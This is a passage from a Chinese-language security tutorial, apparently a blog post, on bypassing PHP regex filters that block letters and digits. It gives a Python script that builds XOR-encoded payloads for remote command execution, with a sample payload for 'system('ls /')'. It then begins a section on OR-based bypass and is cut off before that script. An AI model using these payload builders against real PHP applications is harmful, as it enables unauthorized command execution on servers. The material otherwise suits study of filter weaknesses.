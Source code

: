 首先运行以上 PHP 脚本后，会生成一个 txt 文档 xor_rce.txt，里面包含所有可见字符的异或构造结果。

接着运行以下 Python 脚本，输入你想要构造的函数名和要执行的命令即可生成最终的 Payload：

```
# -*- coding: utf-8 -*-

def action(arg):
s1=""
s2=""
for i in arg:
f=open("xor_rce.txt","r")
while True:
t=f.readline()
if t=="":
break
if t[0]==i:
#print(i)
s1+=t[2:5]
s2+=t[6:9]
break
f.close()
output="(\""+s1+"\"^\""+s2+"\")"
return(output)

while True:
param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
print(param)
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7H4H4qlkhpBdbRIRlIuJbpoyOcBTSml4ML8Np6JNFib7jxcngiavjCqiaiaA/640?wx_fmt=jpeg)

```
[+] your function：system
[+] your command：ls /
("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%0c%08%00%00"^"%60%7b%20%2f");
```

测试效果如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7Hz1HcOFPVx8W9LthDr6y5pWib7pslX8zkKWRJWOZtKHUUrBggqZqwibxA/640?wx_fmt=jpeg)

或运算绕过
-----

### 绕过原理

在前面异或绕过中我们说了，PHP 中两个字符串异或之后得到的还是一个字符串。那么或运算原理也是一样，如果正则匹配过滤了字母和数字，那就可以使用两个不在正则匹配范围内的非字母非数字的字符进行或运算，从而得到我们想要的字符串。

### 构造脚本

下面给出一个或运算绕过的脚本：
